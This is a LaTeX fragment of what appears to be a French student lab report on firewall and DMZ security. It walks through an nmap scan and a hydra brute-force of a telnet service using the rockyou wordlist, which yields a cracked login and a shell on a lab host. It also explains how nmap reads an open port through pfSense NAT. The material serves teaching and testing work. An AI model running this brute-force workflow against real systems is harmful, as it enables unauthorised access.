 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	\subsection{Exemple Concret : De Nmap à Exploit}
	\begin{lstlisting}[caption=Workflow complet]
		# 1. Découverte
		nmap -sS 192.168.100.6
		→ Port 23 open
		
		# 2. Version
		nmap -sV -p 23 192.168.100.6
		→ GNU Inetutils telnetd
		
		# 3. Recherche Exploit
		searchsploit inetutils telnet
		→ Résultat: Aucun exploit direct (protocole legacy, pas de CVE)
		
		# 4. Attaque Alternative: Brute Force
		hydra -l telnetuser -P /usr/share/wordlists/rockyou.txt \
		telnet://192.168.100.6
		
		# 5. Succès
		[23][telnet] host: 192.168.100.6 login: telnetuser password: test123
		
		# 6. Connexion
		telnet 192.168.100.6
		→ Shell obtenu
	\end{lstlisting}
	
	\section{Question 4 : États de Port et Signification}
	
	\subsection{Port 80 : État "open"}
	
	\subsubsection{Résultat Nmap}
	\begin{lstlisting}
		PORT   STATE SERVICE
		80/tcp open  http
	\end{lstlisting}
	
	\subsubsection{Explication Technique}
	\textbf{Processus de Détection :}
	\begin{enumerate}
		\item Nmap envoie un paquet \texttt{TCP SYN} à 192.168.100.6:80.
		\item pfSense (WAN) reçoit le paquet.
		\item pfSense consulte les règles firewall : Règle "Allow WAN to DMZ Web" → PASS.
		\item pfSense consulte la table NAT : Règle "WAN:80 → 192.168.10.100:80" → MATCH.
		\item pfSense transmet le paquet vers Ubuntu DMZ (192.168.10.100:80).
		\item Nginx (serveur web) sur Ubuntu répond avec \texttt{TCP SYN-ACK}.
		\item pfSense effectue le NAT inverse et transmet la réponse à Nmap.
		\item Nmap reçoit \texttt{SYN-ACK} → Conclut que le port est \textbf{OPEN}.
	\end{enumerate}
	
\end{document}
